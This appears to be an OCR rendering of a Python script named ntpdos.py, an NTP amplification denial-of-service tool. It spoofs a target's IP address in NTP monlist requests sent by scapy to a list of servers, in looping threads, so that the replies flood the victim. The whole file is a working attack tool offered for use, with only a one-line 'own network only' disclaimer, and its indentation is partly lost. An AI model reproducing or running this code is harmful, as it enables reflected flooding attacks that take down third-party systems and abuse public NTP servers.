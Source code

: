 #!/usr/bin/env python
from scapy.all import *
import sys
import threading
import time
#NTP Amp DOS attack
#usage ntpdos.py <target ip> <ntpserver list> <number of threads> ex: ntpdos.py 1.2.3.4 file.txt 10
#FOR USE ON YOUR OWN NETWORK ONLY


#packet sender
def deny():
#Import globals to function
global ntplist
global currentserver
global data
global target
ntpserver = ntplist[currentserver] #Get new server
currentserver = currentserver + 1 #Increment for next
packet = IP(dst=ntpserver,src=target)/UDP(sport=48947,dport=123)/Raw(load=data) #BUILD IT
send(packet,loop=1) #SEND IT

#So I dont have to have the same stuff twice
def printhelp():
print "NTP Amplification DOS Attack"
print "By DaRkReD"
print "Usage ntpdos.py <target ip> <ntpserver list> <number of threads>"
print "ex: ex: ntpdos.py 1.2.3.4 file.txt 10"
print "NTP serverlist file should contain one IP per line"
print "MAKE SURE YOUR THREAD COUNT IS LESS THAN OR EQUAL TO YOUR NUMBER OF SERVERS"
exit(0)

if len(sys.argv) < 4:
printhelp()
#Fetch Args
target = sys.argv[1]

#Help out idiots
if target in ("help","-h","h","?","--h","--help","/?"):
printhelp()

ntpserverfile = sys.argv[2]
numberthreads = int(sys.argv[3])
#System for accepting bulk input
ntplist = []
currentserver = 0
with open(ntpserverfile) as f:
    ntplist = f.readlines()

#Make sure we dont out of bounds
if numberthreads > int(len(ntplist)):
print "Attack Aborted: More threads than servers"
print "Next time dont create more threads than servers"
exit(0)

#Magic Packet aka NTP v2 Monlist Packet
data = "\x17\x00\x03\x2a" + "\x00" * 4

#Hold our threads
threads = []
print "Starting to flood: "+ target + " using NTP list: " + ntpserverfile + " With " + str(numberthreads) + " threads"
print "Use CTRL+C to stop attack"

#Thread spawner
for n in range(numberthreads):
    thread = threading.Thread(target=deny)
    thread.daemon = True
    thread.start()

    threads.append(thread)

#In progress!
print "Sending..."

#Keep alive so ctrl+c still kills all them threads
while True:
time.sleep(1)
